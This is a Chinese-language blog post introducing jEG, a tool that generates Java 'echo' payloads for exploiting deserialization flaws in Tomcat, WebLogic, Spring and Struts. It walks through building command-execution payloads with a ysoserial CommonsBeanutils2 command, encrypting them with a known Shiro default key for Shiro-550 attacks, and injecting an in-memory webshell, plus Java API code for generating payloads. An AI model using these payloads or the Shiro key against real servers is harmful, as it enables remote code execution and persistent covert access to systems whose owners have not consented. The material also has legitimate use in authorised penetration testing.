 ```
标题: jEG - 高度自定义的 Java 回显生成工具 (community)
创建: 2023-09-28
更新: 2023-09-28
```

[首发微信订阅号](https://mp.weixin.qq.com/s/_TmPJnKtstL3KeysoyLcVA)

---

### 0x01 工具简介

**jEG (Java Echo Generator)** 是一款支持高度自定义的 Java 回显载荷生成工具。

功能介绍
- 支持的中间件和框架
  - Tomcat/Resin/Jetty/WebLogic/WebSphere/Undertow
  - SpringMVC/Struts2
- 支持的执行模式 (Command/Code)
- 支持的输出格式 (BASE64/BCEL/BIGINTEGER/CLASS/JAR/JS)

执行模式
- 命令执行回显
- 代码执行回显（toString）

工作模式
- 作为 独立的 GUI 工具 
- 作为 woodpecker 的插件
- 作为 第三方库

下载地址

- https://github.com/pen4uin/java-echo-generator

### 0x02 工具演示

#### 两种执行模式

**命令执行**

0、测试环境说明

- Tomcat v8.5.91
- JDK 8
- 原生反序列化漏洞
- CommonsBeanutils2


1、生成对应命令执行回显的 payload，继承 AbstractTranslet

![](./img/1708843903204.png)

2、使用 yso 进行序列化利用封装

```
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils2 -a "class_file:/Users/NotFound/Temp/SessionDataUtil.class" | base64
```

3、通过请求头 Cache-Control-Ymirvesoc 传入需要执行的命令，如图，命令成功执行并回显

![](./img/1708843933258.png)

**代码执行**

0、测试环境说明

- SpringBoot 2.2.6.RELEASE
- JDK 8
- Shiro 550
- CommonsBeanutils2_183

1、生成对应代码执行回显的 payload，继承 AbstractTranslet

![](./img/1708843968446.png)

2、使用 shiro 漏洞利用插件对 payload 进行加密处理

```
yso_gadget=CommonsBeanutils2_183
yso_cmd=class_file:/Users/NotFound/Temp/CSVUtil.class
shiro_key=kPH+bIxk5D2deZiIxcaaaA==
aes_model=CBC
```

3、准备需要执行的代码，这里以shiro常见的漏洞利用场景作为演示 - 注入内存马，使用 jMG 生成BASE64格式的内存马注入器

![](./img/1708843998491.png)

4、通过请求参数 Dsyoi 传入需要执行的字节码，如图，代码成功执行并回显

![](./img/1708844009402.png)

5、内存马注入成功

![](./img/1708844020638.png)

#### 三种工作模式

**图形化**

1、下载 jEG-gui-1.0.0.jar 运行即可


![](./img/1708844053138.png)

**Woodpecker 插件**

1、下载 jEG-woodpecker-1.0.0.jar 到 woodpecker 插件目录下即可

![](./img/1708844074999.png)

**第三方库**

1、下载 jEG-core-1.0.0.jar 并安装到本地 maven 仓库

```
mvn install:install-file -Dfile=jEG-core-1.0.0.jar -DgroupId=jeg -DartifactId=jeg-core -Dversion=1.0.0 -Dpackaging=jar
```

2、引入自己的框架/工具的依赖中

```xml
<dependency>
    <groupId>jeg</groupId>
    <artifactId>jeg-core</artifactId>
    <version>1.0.0</version>
</dependency>
```

3、调用 API 生成需要的回显载荷即可

```java
// 基本配置
jEGConfig config = new jEGConfig() {{
    // 设置待回显的中间件为 tomcat
    setServerType(Constants.SERVER_TOMCAT);
    // 设置待执行的 payload 为命令执行回显
    setModelType(Constants.MODEL_CMD);
    // 设置 payload 的输出格式为 BASE64
    setFormatType(Constants.FORMAT_BASE64);
    // 初始化基础配置
    build();
}};
// 生成 payload
jEGenerator generator = new jEGenerator(config);
System.out.println("请求头: " + config.getReqHeaderName());
System.out.println(generator.getPayload());
```

### 0x03 最后

从 jMG 到 jEG，Java 漏洞利用的造“轮子”之旅也算可以告一段落了。

最后祝大家节日快乐！

---

参考
```
https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
https://gist.github.com/fnmsd/8165cedd9fe735d7ef438b2e977af327
https://github.com/feihong-cs/Java-Rce-Echo
```

---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)












